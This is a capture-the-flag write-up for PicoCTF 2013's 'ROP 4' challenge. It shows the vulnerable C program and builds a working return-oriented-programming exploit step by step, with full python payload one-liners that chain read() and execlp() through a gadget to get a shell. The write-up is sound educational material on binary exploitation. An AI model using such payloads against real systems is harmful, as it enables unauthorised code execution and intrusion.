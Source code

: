 # PicoCTF 2013: ROP 4

**Category:** Binary Exploitation
**Points:** 165
**Description:**

>Problem has been updated April 28th at midnight ESTAnother ROP problem, this
>time a bit harder than before. Available on the shell machine in
>/problems/ROP_4_887f7f28b1f64d7e .

## Write-up
**Disclaimer: The binary was taken from the server since there was no download
in the description, it may not line up exactly with the source code.**

As the [SMALL_HINT](SMALL_HINT) suggests, they've gone and used `strcpy()` instead of
`strcat()`. Luckily this won't be an issue.

Let's look at the code
```C
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char exec_string[20];

void exec_the_string() {
    execlp(exec_string, exec_string, NULL);
}

void call_me_with_cafebabe(int cafebabe) {
    if (cafebabe == 0xcafebabe) {
        strcpy(exec_string, "/sh");
    }
}

void call_me_with_two_args(int deadbeef, int cafebabe) {
    if (cafebabe == 0xcafebabe && deadbeef == 0xdeadbeef) {
        strcpy(exec_string, "/bin");
    }
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
```

Based on the code, it looks like they wanted us to call
`call_me_with_two_args()`, followed by `call_me_with_cafebabe()`, followed by 
`exec_the_string()`. However they used `strcpy()` so we'll just circumvent the
entire thing. The important factor is that we can call `execlp()` and `read()`.

That will be enough for a shell. We can start by finding the offset for `$eip`
```
python -c 'print "A"*140 + "BBBB"' | strace ./rop4
...
...
--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x42424242} ---
```
Surprise surprise, 140 bytes like the other ROP problems. Now at this point
I'll confess that I have no idea how `execlp()` is supposed to work. What I do
know is that according to their code, `execlp("/bin/sh","/bin/sh",NULL)` should
do the trick. First we use objdump to dump the functions and we'll find that
there's a lot. That's because this binary is statically linked. There are a lot
of functions to choose from :). I grepped around for some useful functions.
```
08053ab0 <execlp>:
...
08053d20 <__libc_read>:
...
```
With these functions we can fairly reliably get a shell. I started witha a call
to `read(1,0xff6f0000,9)`. This was so I had an absolute address for /bin/sh to
go into. The address 0xff6f0000 was just an address I picked that was likely to
be in the stack range consistently across runs.
```
python -c 'print "A"*140 + "\x20\x3d\x05\x08" + "JUNK" +
"\x01\x00\x00\x00" + "\x00\x00\x6f\xff"+ "\x09\x00\x00\x00"' | ./rop4
```

From here, we need to chain function calls together so we can call `execlp()`.
This means that I need to somehow get my three arguments for `read()` off of
the stack, otherwise 0x00000001 will be the next address jumped to. I used
[ropshell](ropshell.com) to find the ROP gadget I needed. A ROP gadget is just
a tiny chunk of assembly that does something and returns. In this case, it runs
pop;pop;pop;ret. This ensures that the three arguments for `read()` aren't
treated as addresses with code to be run. The address for this gadget is:
0x0809b675. 

We get this:
```
python -c 'print "A"*140 + "\x20\x3d\x05\x08" + "\x75\xb6\x09\x08" +
"\x01\x00\x00\x00" + "\x00\x00\x6f\xff"+ "\x09\x00\x00\x00"' | ./rop4
```
as the next phase in our exploit. Now that we have the pop;pop;pop;ret gadget,
we can just put the call to `execlp()` after it all. We then supply a bogus
return address, the address of the string to be executed (x2), and 0, or NULL.

```
python -c 'print "A"*140 + "\x20\x3d\x05\x08" + "\x75\xb6\x09\x08" + 
"\x01\x00\x00\x00" + "\x00\x00\x6f\xff"+ "\x09\x00\x00\x00"+ "\xb0\x3a\x05\x08"
+ "JUNK" + "\x00\x00\x6f\xff" + "\x00\x00\x6f\xff" + "\x00\x00\x00\x00"' | ./rop4
```

Note that I supplied the same address as the call to `read()`. This is because
when you run the program, you'll actually type in /bin/sh for the second read,
and that is what gets executed. Try typing in /bin/date , it will also work :P

Note: On the server you may want to use /bin/bash :)

pwned.

## Other write-ups and resources

* none yet
